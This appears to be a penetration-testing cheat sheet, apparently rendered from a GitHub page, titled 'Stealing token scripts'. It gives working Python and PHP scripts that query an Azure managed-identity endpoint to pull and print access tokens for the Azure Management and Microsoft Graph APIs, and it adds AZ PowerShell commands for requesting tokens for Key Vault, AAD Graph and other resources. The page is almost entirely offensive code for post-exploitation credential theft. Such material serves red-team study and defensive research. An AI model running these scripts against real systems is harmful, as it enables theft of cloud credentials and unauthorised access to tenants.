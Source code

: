 ### Stealing token scripts
#### Python
```
import os
import json

IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()

print("[+] Management API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])

cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()
print("\r\n[+] Graph API")
print(json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])
```

#### PHP
```
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

### Using tokes with CLI Tools - AZ PowerShell
#### Request access token
```
Get-AzAccessToken
(Get-AzAccessToken).Token
```

#### Request an access token for AAD Graph to access Azure AD. 
- Supported tokens - AadGraph, AnalysisServices, Arm, Attestation, Batch, DataLake, KeyVault, OperationalInsights, ResourceManager, Synapse
```
Get-AzAccessToken -ResourceTypeName AadGraph
```
